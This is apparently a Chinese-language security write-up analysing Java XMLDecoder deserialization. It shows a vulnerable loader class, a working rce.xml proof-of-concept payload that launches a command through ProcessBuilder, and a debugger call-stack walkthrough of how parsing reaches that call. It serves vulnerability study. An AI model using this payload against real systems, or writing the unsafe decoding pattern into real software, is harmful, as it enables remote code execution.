



# 漏洞分析

## 反序列化漏洞

### 漏洞描述


### 漏洞复现

#### 环境搭建

PayloadRunner.java

```java
import java.beans.XMLDecoder;
import java.beans.XMLEncoder;
import java.io.*;
import java.util.HashMap;

public class PayloadRunner {
    public static void main(String[] args) throws IOException, InterruptedException {
        PayloadRunner payloadRunner = new PayloadRunner();
        payloadRunner.deserialize();
    }

    public void serialize(){
        HashMap<Object, Object> map = new HashMap<>();
        map.put("noob","pen4uin");
        XMLEncoder xmlEncoder = new XMLEncoder(System.out);
        xmlEncoder.writeObject(map);
        xmlEncoder.close();
    }

    public void deserialize() throws FileNotFoundException {
        File xmlFile = new File("rce.xml");
        FileInputStream fis = new FileInputStream(xmlFile);
        BufferedInputStream bis = new BufferedInputStream(fis);
        XMLDecoder xmlDecoder = new XMLDecoder(bis);
        System.out.println(xmlDecoder.readObject());
        xmlDecoder.close();
    }
}
```

#### 漏洞验证

rce.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_121" class="java.beans.XMLDecoder">
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0"><string>calc</string></void>
        </array>
        <void method="start"></void>
    </object>
</java>
```

测试效果


### 漏洞分析

#### 前置基础

##### 序列化 writeObject()

- 参考 http://www.b1ue.cn/archives/239.html

示例代码

```java
public void serialize(){
    HashMap<Object, Object> map = new HashMap<>();
    map.put("noob","pen4uin");
    XMLEncoder xmlEncoder = new XMLEncoder(System.out);
    xmlEncoder.writeObject(map);
    xmlEncoder.close();
}
```

测试效果

 

##### 反序列化 readObject()

示例数据 demo.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_121" class="java.beans.XMLDecoder">
 <object class="java.util.HashMap">
  <void method="put">
   <string>noob</string>
   <string>pen4uin</string>
  </void>
 </object>
</java>
```

示例代码

```java
public void deserialize() throws FileNotFoundException {
    File xmlFile = new File("demo.xml");
    FileInputStream fis = new FileInputStream(xmlFile);
    BufferedInputStream bis = new BufferedInputStream(fis);
    XMLDecoder xmlDecoder = new XMLDecoder(bis);
    System.out.println(xmlDecoder.readObject());
    xmlDecoder.close();
}
```

测试效果

 


#### 详细分析

XMLDecoder的解析流程看 @fnmsd 的文章

- https://xz.aliyun.com/t/5069

> 下面是调试过程中的一点记录

在 `java.lang.ProcessImpl#create` 处下断点，获取

调用栈

```java
create:-1, ProcessImpl (java.lang)
<init>:386, ProcessImpl (java.lang)
start:137, ProcessImpl (java.lang)
start:1029, ProcessBuilder (java.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invoke:71, Trampoline (sun.reflect.misc)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invoke:275, MethodUtil (sun.reflect.misc)
invokeInternal:292, Statement (java.beans)
access$000:58, Statement (java.beans)
run:185, Statement$2 (java.beans)
doPrivileged:-1, AccessController (java.security)
invoke:182, Statement (java.beans)
getValue:155, Expression (java.beans)
getValueObject:166, ObjectElementHandler (com.sun.beans.decoder)
getValueObject:123, NewElementHandler (com.sun.beans.decoder)
endElement:169, ElementHandler (com.sun.beans.decoder)
endElement:318, DocumentHandler (com.sun.beans.decoder)
endElement:609, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
scanEndElement:1782, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
next:2967, XMLDocumentFragmentScannerImpl$FragmentContentDriver (com.sun.org.apache.xerces.internal.impl)
next:602, XMLDocumentScannerImpl (com.sun.org.apache.xerces.internal.impl)
scanDocument:505, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
parse:841, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:770, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:141, XMLParser (com.sun.org.apache.xerces.internal.parsers)
parse:1213, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
parse:643, SAXParserImpl$JAXPSAXParser (com.sun.org.apache.xerces.internal.jaxp)
parse:327, SAXParserImpl (com.sun.org.apache.xerces.internal.jaxp)
run:375, DocumentHandler$1 (com.sun.beans.decoder)
run:372, DocumentHandler$1 (com.sun.beans.decoder)
doPrivileged:-1, AccessController (java.security)
doIntersectionPrivilege:80, ProtectionDomain$JavaSecurityAccessImpl (java.security)
parse:372, DocumentHandler (com.sun.beans.decoder)
run:201, XMLDecoder$1 (java.beans)
run:199, XMLDecoder$1 (java.beans)
doPrivileged:-1, AccessController (java.security)
parsingComplete:199, XMLDecoder (java.beans)
readObject:250, XMLDecoder (java.beans)
deserialize:27, PayloadRunner (Deserialization.XMLDecoder)
main:11, PayloadRunner (Deserialization.XMLDecoder)
```

反序列化入口

- java.beans.XMLDecoder#readObject

调用 `parsingComplete() `

- java.beans.XMLDecoder#parsingComplete

调用 `XMLDecoder.this.handler.parse() `

- com.sun.beans.decoder.DocumentHandler#parse

调用 `SAXParserFactory.newInstance().newSAXParser().parse() `

- com.sun.org.apache.xerces.internal.jaxp.SAXParserImpl#parse()

调用 `xmlReader.parse()` 

- com.sun.org.apache.xerces.internal.jaxp.SAXParserImpl.JAXPSAXParser#parse(org.xml.sax.InputSource)

调用父类的parse() 方法

- com.sun.org.apache.xerces.internal.parsers.AbstractSAXParser#parse(org.xml.sax.InputSource)

调用  `parse()`

- com.sun.org.apache.xerces.internal.parsers.XMLParser#parse

调用 `fConfiguration.parse()`

- com.sun.org.apache.xerces.internal.parsers.XML11Configuration#parse()


经过一些不关心的配置后继续调用this.parse()方法

- com.sun.org.apache.xerces.internal.parsers.XML11Configuration#parse(boolean)


调用处理XML数据的方法：fCurrentScanner.scanDocument()

- com.sun.org.apache.xerces.internal.impl.XMLDocumentFragmentScannerImpl#scanDocument



当处理到 END_ELEMENT 时, 调用 fDriver.next()

- 此时`fDriver`  为 `FragmentContentDriver`

   

- com.sun.org.apache.xerces.internal.impl.XMLDocumentFragmentScannerImpl.FragmentContentDriver#next



解析到SCANNER_STATE_END_ELEMENT_TAG时会调用scanEndElement()

- com.sun.org.apache.xerces.internal.impl.XMLDocumentFragmentScannerImpl#scanEndElement


经过以下调用后执行到

```java
 fDocumentHandler.endElement() ->  fContentHandler.endElement() -> this.handler.endElement()
```

经过两次 this.getValueObject() 调用后，执行到

- java.beans.Expression#getValue
  - 反射机制

```java
public Object getValue() throws Exception {
    if (value == unbound) {
        setValue(invoke());
    }
    return value;
}
```

- 当前参数

 

经过以下调用后


执行到 MethodUtil.invoke

- 反射执行ProcessBuilder.start()


测试效果



